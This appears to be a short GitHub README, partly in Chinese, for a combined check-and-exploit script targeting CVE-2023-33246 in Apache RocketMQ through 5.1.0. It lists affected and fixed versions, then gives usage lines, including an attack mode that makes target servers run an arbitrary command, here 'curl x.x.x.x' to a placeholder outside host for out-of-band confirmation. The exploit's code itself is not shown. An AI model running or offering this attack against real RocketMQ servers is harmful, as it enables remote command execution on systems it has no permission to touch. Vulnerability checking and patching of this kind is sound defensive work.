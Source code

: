 
# CVE-2023-33246

## 影响版本
Apache RocketMQ through 5.1.0

## 修复方案
upgrade to version 5.1.1 above for using RocketMQ 5.x    
4.9.6 above for using RocketMQ 4.x

## check
```python
python check.py --ip 127.0.0.1
```

## exp
```python
python check.py --file test.txt --attack --command "curl x.x.x.x"
```
利用带外显示结果

重新优化check 和exp 脚本，合并功能